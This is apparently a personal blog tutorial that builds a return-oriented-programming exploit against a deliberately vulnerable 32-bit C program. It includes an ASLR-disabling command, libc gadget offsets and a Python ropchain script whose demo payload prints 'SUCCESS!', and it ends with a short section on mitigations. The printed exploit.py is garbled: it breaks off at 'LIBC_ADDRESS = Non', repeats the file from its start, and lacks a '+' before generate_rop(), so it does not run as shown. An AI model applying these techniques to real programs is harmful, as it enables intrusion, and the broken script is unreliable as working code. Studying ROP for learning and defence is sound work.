






# Applied Return-Oriented Programming (ROP)

[Last time](https://j33m.net/2017/12/11/return-oriented-programming-rop/), we discussed that ROP is a technique that can be used to run arbitrary code in a vulnerable application when the stack is marked as non-executable. This time, I will go over an example of how to build a ropchain using libc on a simple application. I will assume that you already know what ROP is and have a general idea of how it works. If this is not the case, go ahead and read my last post.

## The Target

<strong>vuln.c</strong>
```C
#include <unistd.h>
#include <stdio.h>

void getinput()
{
  char buffer[64];
  printf("%p\n", buffer); // print address of the beginning of buffer

  printf("> "); 
  fflush(stdout);

  /* read up to 0x120 bytes from standard input and place into buffer */
  read(0, buffer, 0x120); // overflow happens here

  printf("\ngot input: %s\n", buffer);
}

int main(int argc, char **argv)
{
  getinput();
}
```

This simple program is pretty similar to to the one from my [shellcoding post](https://j33m.net/2017/12/06/shellcode/). It just takes input from the user and prints it back. The main difference is that now, instead of getting input from the user using the `gets()` function, it uses the `read()` function. This function will read up to a certain amount of bytes determined by the third parameter of the function. It will also stop earlier if it is unable to read any more bytes from the given file. The reason we are using this function is because it will not terminate on a null byte. This makes the chain easier to build since we can use gadgets that have null bytes in the address.

Again, we will turn off [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) for convenience:

`sudo sh -c "echo 0 >> /proc/sys/kernel/randomize_va_space"`

<strong>Makefile</strong>
```Makefile
CC=gcc

all: vuln

vuln: vuln.c
  $(CC) -o vuln -m32 -fno-stack-protector vuln.c

clean:
  rm vuln
```

<strong>Flag Descriptions:</strong>

|Flag | Description|
|-----|------------|
| -m32 | Compile for 32-bits |
| -fno-stack-protector | Do not use stack canaries |

We can see that this new binary does utilize Non-Executable (NX) memory with the [checksec](https://github.com/slimm609/checksec.sh) tool:



## Exploitation

Since we are not able to write code on the stack or heap, we will try to build a ropchain using the code that is already loaded in memory.

#### Goal

Our goal this time will be the same as with the shellcoding post. We are going to print the string "SUCCESS!" to standard output. Here is a bit of assembly that does what we need:

```asm
mov edx, 9              # length of string
mov ebx, 1              # standard output
mov eax, 4              # write syscall
mov ecx, string addr    # string to write

int 0x80                # call interrupt
```


#### Finding Gadgets

Let's see what we have to work with from the binary. To do this, I will use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). This is a really nice tool for finding gadgets in a binary. We will start by finding gadgets that let us control the registers. We want gadgets that contains the `pop` instruction so we can set the register to a value we placed on the stack.



This is a little disappointing, it looks like we are only able to control the unable to control `edx` and `eax` registers with these gadgets. Also, this binary does not contain an `int 0x80` instruction to trigger the write system call.

Even though our target application does not have everything that we hoped for, there is no need to worry! Since this program uses standard library functions, we are guaranteed to have libc in memory. Since libc is in memory, we can just build our chain out of that.

To find gadgets in libc, we first must see which version of libc the binary uses and what address in memory it is loaded at. To do this, I load the program in gdb and use the `libs` command from the [pwndbg](https://github.com/pwndbg/pwndbg) plug-in.



From the image above, we can see that this binary uses a version of libc that can be found at: `/lib/i386-linux-gnu/libc-2.23.so`. The beginning of this binary is loaded at the offset `0xf7e00000`. We should keep this in mind, because we will need to add this offset to every gadget address in our chain. Let's create a python file with a utility function that converts libc offsets to a string representation of the address in memory:

```python
import sys
import struct 

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = None

# Converts libc offset to address in memory
def libc_addr(addr):
  return struct.pack('<I', addr + LIBC_ADDRESS)


def main():
  global BUFFER_ADDRESS
  global LIBC_ADDRESS

  if (len(sys.argv) != 3):
    print("usage: " + sys.argv[0] + " <buffer_address> <libc_address>")
    exit(-1)

  BUFFER_ADDRESS = int(sys.argv[1], 16)
  LIBC_ADDRESS = int(sys.argv[2], 16) # This will be 0xf7e00000

if __name__ == '__main__':
  main()
```

Now that we know where libc is located, we can run ROPgadget on it and look for useful gadgets.


`ROPgadget --binary /lib/i386-linux-gnu/libc-2.23.so > gadgets.txt`

We can now `grep` through `gadgets.txt` to find gadgets that we like. Here are the ones that I found:

| address | gadget |
----------|---------
| 0x00001aa6 | pop edx ; ret |
| 0x00018395 | pop ebx ; ret |
| 0x0002406e | pop eax ; ret |
| 0x000b5377 | pop ecx ; ret |
| 0x00002c87 | int 0x80 |

The reason that I chose these gadgets is because each one will set its register and return. This makes them really simple to chain together since you don't have to worry about side-effects. Now, we can add utility functions to our python file for each of our gadgets:

```python
def set_edx(value):
  # 0x00001aa6 : pop edx ; ret
  return libc_addr(0x00001aa6) + struct.pack('<I', value)

def set_ebx(value):
  # 0x00018395 : pop ebx ; ret
  return libc_addr(0x00018395) + struct.pack('<I', value)

def set_eax(value):
  # 0x0002406e : pop eax ; ret
  return libc_addr(0x0002406e) + struct.pack('<I', value)

def set_ecx(value):
  # 0x000b5377 : pop ecx ; ret
  return libc_addr(0x000b5377) + struct.pack('<I', value)

def syscall():
  # 0x00002c87 : int 0x80
  return libc_addr(0x00002c87)
```

Since we have made all of these handy helper functions, we can how generate our ropchain in a way that just looks like pseudocode:

```python
def generate_rop():
  rop = ''
  rop += set_edx(9)
  rop += set_ebx(1)
  rop += set_ecx(BUFFER_ADDRESS)
  rop += set_eax(4)
  rop += syscall()
  return rop
```


#### Padding the Input

Our script now generates the ropchain itself, but now we have to overflow the buffer to get control of `$eip`. To do this, we need to generate enough padding to overflow the original buffer along with any padding due to the fact that the function will begin with `$esp` on a 16-byte boundary. [In my post about shellcoding](https://j33m.net/2017/12/06/shellcode/), we found the amount of padding by looking at the disassembled preamble of the function to see how much stack space was allocated for the function. In this case, it is a little less straightforward.



This time, the preamble of the function shows that `0x58` bytes are allocated on the stack at the instruction labeled '1'. This is a bit misleading because our buffer is not stored at `[esp+0x58]`. In the box labeled '2', we see that the second parameter (`[esp+0x04]`) to the `read()` function is actually `[ebp-0x48]`. This means that we need to overflow `0x48` bytes to get to the old `$ebp` value. 0x40 bytes come from the 64 bytes allocated for the input buffer, and 0x08 bytes of padding align `$esp`. 


<i>The preamble allocates the extra 0x10 bytes for optimization. Instead of pushing and popping values from the stack for each function call in the program, we can just rewrite the parameters that we don't care about from the last function call.</i>



We can now include some logic in our script to add padding to the beginning of our exploit:

```python
PRINT_STRING = 'SUCCESS!\n'

# fill the buffer + padding + old ebp
NOP_SIZE = BUFFER_SIZE - len(PRINT_STRING) + 8 + 4
.
.
.

def main():
  .
  .
  .
  # Add padding to chain
  exploit = PRINT_STRING +\
            '\x90' * NOP_SIZE
            generate_rop()

  print(exploit)

```

Now we can throw it all together and generate our full exploit!

<strong>exploit.py</strong>
```python 
#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = Non#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = None

PRINT_STRING = 'SUCCESS!\n'

# fill the buffer + padding + old ebp
NOP_SIZE = BUFFER_SIZE - len(PRINT_STRING) + 8 + 4

# Converts libc offset to address in memory
def libc_addr(addr):
  return struct.pack('<I', addr + LIBC_ADDRESS)

def set_edx(value):
  # 0x00001aa6 : pop edx ; ret   
  return libc_addr(0x00001aa6) + struct.pack('<I', value)

def set_ebx(value):
  # 0x00018395 : pop ebx ; ret     
  return libc_addr(0x00018395) + struct.pack('<I', value)

def set_eax(value):
  # 0x0002406e : pop eax ; ret  
  return libc_addr(0x0002406e) + struct.pack('<I', value)

def set_ecx(value):
  # 0x000b5377 : pop ecx ; ret 
  return libc_addr(0x000b5377) + struct.pack('<I', value)

def syscall():
  # 0x00002c87 : int 0x80       
  return libc_addr(0x00002c87)

def generate_rop():
  rop = ''
  rop += set_edx(9)
  rop += set_ebx(1)
  rop += set_ecx(BUFFER_ADDRESS)
  rop += set_eax(4)
  rop += syscall()
  return rop

def main():
  global BUFFER_ADDRESS
  global LIBC_ADDRESS

  if (len(sys.argv) != 3):
    print("usage: " + sys.argv[0] + " <buffer_address> <libc_address>")
    exit(-1)

  BUFFER_ADDRESS = int(sys.argv[1], 16)
  LIBC_ADDRESS = int(sys.argv[2], 16)

  exploit = PRINT_STRING +\
            '\x90' * NOP_SIZE
            generate_rop()

  print(exploit)

if __name__ == '__main__':
  main()

```

Let's run the script and see if we have successfully made a ropchain.



We can now see that our ropchain successfully runs because SUCCESS! it printed to standard output.

## Tips for ROP
  * Construct the chain in a script. It is hard to really mess up when your top-level looks like pseudocode.
  * Avoid gadgets with side effects. If you have few options, prefer side effects that ruin registers. If a gadget modifies the stack in an unpredictable way, it may be hard to account for it.
  * Find gadgets in `libc.so`, `ntdll.dll`, or `kernel32.dll`. These large binaries are always in memory. If you can get the base address of these, you get a lot more to choose from.
  * Null bytes are skipped over when `/bin/sh` tries to put them onto standard input. For read() to work with null bytes, you must use file redirection instead of let `/bin/sh` touch the strings. (`./exploit | ./vuln` instead of `./vuln <<< $(./exploit)`)


## Mitigating ROP

To help mitigate the possibility of an attacker using ROP to exploit a program. A developer can take advantage of [Address Space Layout Randomization (ASLR)](https://en.wikipedia.org/wiki/Address_space_layout_randomization). This mitigation technique randomizes the address of a process in memory, forcing an attacker to either guess the address of gadgets or somehow leak that information. This mitigation technique is implemented by default by all modern operating systems. 

To prevent user control of the program counter, developers need to pay close attention to avoid bugs that can lead to an overwrite of the return address on the stack. The use of [stack canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) can also help mitigate the control that an attacker can achieve without first leaking values on the stack. Most compilers implement this technique by default.

#### Other Resources

To learn more about return-oriented programming, I recommend watching [this video by Gynvael Coldwind](https://www.youtube.com/watch?v=iwRSFlZoSCM). He explains the process that he uses when building a ropchain and explains everything clearly. [ROP Emporium](https://ropemporium.com/) is a nice wargaming website that consists exclusively of ROP challenges.